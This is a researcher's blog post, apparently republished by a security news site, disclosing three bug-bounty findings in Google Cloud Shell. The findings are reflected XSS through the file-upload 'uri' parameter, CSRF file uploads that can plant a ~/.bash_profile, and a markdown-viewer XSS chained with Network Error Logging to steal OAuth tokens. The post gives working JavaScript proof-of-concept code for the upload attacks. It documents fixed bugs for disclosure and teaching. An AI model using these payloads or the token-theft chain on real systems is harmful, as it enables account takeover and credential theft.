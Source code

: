 ```yaml
---
title: [ GCP 2022 ] Few bugs in the google cloud shell
url: https://govuln.com/news/url/P3Y8
source: Sec-News 安全文摘
date: 2023-06-26
fetch_date: 2025-10-04T11:44:15.604609
---
```


# [ GCP 2022 ] Few bugs in the google cloud shell

# [Obmi's blog](https://obmiblog.blogspot.com/)

## понедельник, 26 декабря 2022 г.

### [ GCP 2022 ] Few bugs in the google cloud shell

### What is Google Cloud Shell.

    Cloud Shell is an interactive shell environment for Google Cloud that lets you learn and experiment with Google Cloud and manage your projects and resources from your web browser.

### 1. XSS via `uri` parameter in file uploading feature

**Endpoint:** *POST https://970-cs-<ID>-default.cs-europe-west4-fycr.cloudshell.dev/file-upload*

 **Issue**: *214291117*
 **Bounty**: *5k*

### Description:

When a file uploaded the server return the unescaped `uri` parameter value in the response body. But this response has '*text/html*' value in the content-type header, so this response will be interpreted as a usual html document by browser if user will see it (see screenshot/video). Attacker can load file from his own origin via form and user will see that response.

####

#### Code (javascript):

> function send(devshell\_host, target='\_blank') {

> > if(!devshell\_host) return alert('Devshell host is empty')
>
> > let form = document.createElement('form');
>
> > form.action = `https://${devshell\_host}/file-upload?`
>
> > form.target = target
>
> > form.method = 'POST'
>
> > form.enctype = 'multipart/form-data'
>
> > /\* ADD PAYLOAD TO PATH \*/
>
> > let uriInput = document.createElement('input')
>
> > uriInput.name = 'uri'
>
> > uriInput.value = `/tmp/test<img/src/onerror=alert(document.domain);${Math.floor(Math.random() \* 1000) }>`
>
> > /\* ADD UPLOAD FILE \*/
>
> > let fileInput = document.createElement('input')
>
> > fileInput.type = 'file'
>
> > fileInput.name = 'file'
>
> > let file = new File(['somecontent'], "img.jpg",{type:"image/jpeg", lastModified:new Date().getTime()});
>
> > let container = new DataTransfer();
>
> > container.items.add(file);
>
> > fileInput.files = container.files;
>
> > /\* BUILD FORM \*/
>
> > form.replaceChildren(uriInput, fileInput)
>
> > document.body.append(form)
>
> > /\* SEND \*/
>
> > form.submit()

> }

> send('your-domain')

#### Screenshot:

[![XSS cloud shell](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiCGnFx2x9XwByebnlewnbicGvWAqaNG2ZeYtLID9JKM9PA4m6br5pP7FTZ7lUTn5R9gVIU-kNtTyVMmFYRDE5NatpmfUxwFkg9SHWcWhj7Scz7QO_xvEr3AGLF0YJHLFd1-NM51dsfQgQl_FRaGGCdpnE5MNsp9MQuRBcxz33nNyiG3Rd5mjN4WddKWQ/w320-h160/DEVSHELL_XSS_FILE_UPLOAD.png "Screenshot")](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiCGnFx2x9XwByebnlewnbicGvWAqaNG2ZeYtLID9JKM9PA4m6br5pP7FTZ7lUTn5R9gVIU-kNtTyVMmFYRDE5NatpmfUxwFkg9SHWcWhj7Scz7QO_xvEr3AGLF0YJHLFd1-NM51dsfQgQl_FRaGGCdpnE5MNsp9MQuRBcxz33nNyiG3Rd5mjN4WddKWQ/s1919/DEVSHELL_XSS_FILE_UPLOAD.png)

#### Video:

### 2. CSRF File uploading

 **Endpoints**:

* *POST https://970-cs-<ID>-default.cs-europe-west4-fycr.cloudshell.dev/\_cloudshell/file?path=...*
* *POST https://970-cs-<ID>-default.cs-europe-west4-fycr.cloudshell.dev/file-upload*

 **Issue:** *214035061*

**Bounty:** *5k + 5k (another endpoint and re-attack after fix)*

#### Description:

    User can upload files to his cloud shell via two endpoints:

* POST https://8080-cs-<ID>-default.cs-europe-west4-fycr.cloudshell.dev/\_cloudshell/file?path=<DIRECTORY>
* POST https://970-cs-<ID>-default.cs-europe-west4-fycr.cloudshell.dev/file-upload

    Both of them were vulnerable to CSRF and had no any protection of csrf. It makes possible to send POST request with file from any third-party origin (attacker's origin) to the user's vm origin (victim origin). If some file will be uploaded to `~/.bash\_profile` path (for example) this file will be stored for a long time and will be executed every time when user login in his vm.

Also this csrf can be used for xss if attacker will upload a file with payload to the "/google/devshell/editor/theia/lib/" path.

#### Example of code:

>     function uploadBashPayload(hostname){
>          let formData = new FormData()
>          let file = new Blob(['some evil content'], {type : 'text/plain'});
>          formData.append('uploadFile', file, '<your-filepath>')
>          fetch(`https://${hostname}/\_cloudshell/file?path=`, { credentials: 'include', method: 'POST', body: formData } )
>      }

#### Example of code 2:

> function uploadXSSPayload(hostname){
>      let winname = 'evilwindow'
>      let win = window.open('about:blank', winname)
>      let filename = `test${Math.floor(Math.random() \* 1000) }.html`
>      if(!hostname) return alert('Devshell host is empty')
>      let form = document.createElement('form');
>      form.action = `https://${hostname}/file-upload?`
>      form.target = winname
>      form.method = 'POST'
>      form.enctype = 'multipart/form-data'
>      /\* ADD PAYLOAD IN PATH \*/
>      let uriInput = document.createElement('input')
>      uriInput.name = 'uri'
>      uriInput.value = `/google/devshell/editor/theia/lib/${filename}`
>      /\* ADD UPLOAD FILE \*/
>      let fileInput = document.createElement('input')
>      fileInput.type = 'file'
>      fileInput.name = 'file'
>      let file = new File(['<html><head><script>alert(`I am xss in: \$\{ origin \} origin`)</script></head><body>Hey! Iam attacker page</body></html>'], filename,{type:"image/jpeg", lastModified:new Date().getTime()});
>      let container = new DataTransfer();
>      container.items.add(file);
>      fileInput.files = container.files;
>      /\* BUILD FORM \*/
>      form.replaceChildren(uriInput, fileInput)
>      document.body.append(form)
>      /\* SEND \*/
>      form.submit()
>      setTimeout( ()=>{ win.location = `https://${hostname}/${filename}` }, 1500)
>  }

#### Video:

### 3. Stored XSS in Markdown Viewer and oauth token hijacking

 **Issue:** 217090716
 **Bounty:** 5K

#### XSS via markdown part

1. When a markdown document is opened in /webview the child frame with the rendered markdown document has CSP for prevent javascript execution, but it allows to redirect the current frame to any other origin via `<meta http-equiv="refresh" content="0;url=//evil-url">` tag.
2. The `/webview/index.html` frame listens messages from child frame and doesn't check origin of message. So the attacker's iframe can can send commands to the parent frame.
3. In the `/webview/main.js` the function `getVsCodeApiScript` generates inline javascript for child frame and use the unsafe 'state' param inside script content, this param can be received from any child frame via `postMessage()`. It doesnt sanitizing the state param and it used in the script tag content. If the state param contains string '</script><script>evil' - browser will parse it as two different <script> nodes and will add them to the head of page ( before the csp meta tags will be added).
4. So attacker can place any javascript inside the state param and send it to the parent frame via `parent.parent.postMessage()`.

#### Token hijacking with NEL

1. If attacker can get control of victim VM (through xss, csrf, etc) he can run his own webserver instead of original devshell server and configure it to send NEL reports to the attacker's report-uri.
2. Browser will store attacker's *'report-uri'* endpoint to use it for sending all network error reports what will thrown in user's devshell origin.
3. Every time, when user starts new devshell session, browser sends many authorization requests to the VM origin with oauth token in url. Because the devshell not started yet server responds with 503 http code. It's the network error, so browser will send a report.
4. Browser will send NEL reports, what contains urls with tokens to the attacker server. So, that way can be used to permanent stealing of user's token. More details about NEL you can read here:  <https://web.dev/network-error-logging/>

#### Video:

Thanks for reading

Автор:
obmi-xssed

на
[23:23](https://obmiblog.blogspot.com/2022/12/gcp-2022-few-bugs-in-google-cloud-shell.html "permanent link")

[![](https://resources.blogblog.com/img/icon18_edit_allbkg.gif)](https://draft.blogger.com/post-edit.g?blogID=3...